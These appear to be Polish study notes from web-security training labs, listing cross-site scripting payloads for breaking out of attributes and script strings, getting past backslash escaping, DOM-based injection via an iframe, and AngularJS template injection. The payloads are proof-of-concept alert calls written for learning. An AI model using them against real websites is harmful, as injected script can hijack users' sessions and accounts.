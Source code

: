 

src="[]"...>:
```
"><script>alert(document.domain)</script>
```
Jeśli jesteśmy wewnątrz stringa w skrypcie:
```
'-alert(document.domain)-'
';alert(document.domain)//
```
Jeżeli jest escapowany znak (używany w tym celu backslash) to można dać przed nim \\\\:
wtedy jeżeli payload jest równy:
``` 
\';alert(document.domain)//
```
po próbie escapowania ' będzie wyglądał tak:
```
\\';alert(document.domain)//
```
a tym samym zamiast escapowania ' zescapowany zostanie backslash, a zatem będzi uznany jako zwykły znak, a nie specjalny.	

Jeżeli escapowany jest również backslash możemy użyć predefiniowanych entity javascripta do znaków np.: \&apos; to ':
```
&apos;-alert(document.domain)-&apos;
```
Można również użyć:
```
${alert(document.domain)}
```
# DOM BASED XSS 

Jeżeli wrzucamy do innerHTML nie są akceptowane np. script i svg (nie bedą odpalone) 
- Wtedy użyć można <frame> albo <img>

Jeżeli mamy on hashchange to można użyć:
```
<iframe src="https://0a15006c031ab25bc000223400ad00a2.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print()>'"> 
```
jak exploit, albo
```
https://0a15006c031ab25bc000223400ad00a2.web-security-academy.net/#<img src=1 onerror=print()>
```
Jeżeli mamy payload do Angulara, to warto sobie poszukać pod konkretny framework:
```
{{$on.constructor('alert(1)')()}}
```

## Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
1. payload wprowadzony jest do wnętrza skryptu, jednak nie możemy "wyjść" ze stringa, bo znak ' jest usuwany
2. możemy jednak zakończyć całą sekcje skryptu dając payload:
``` 
</script><img src=1 onerror=alert()>
```
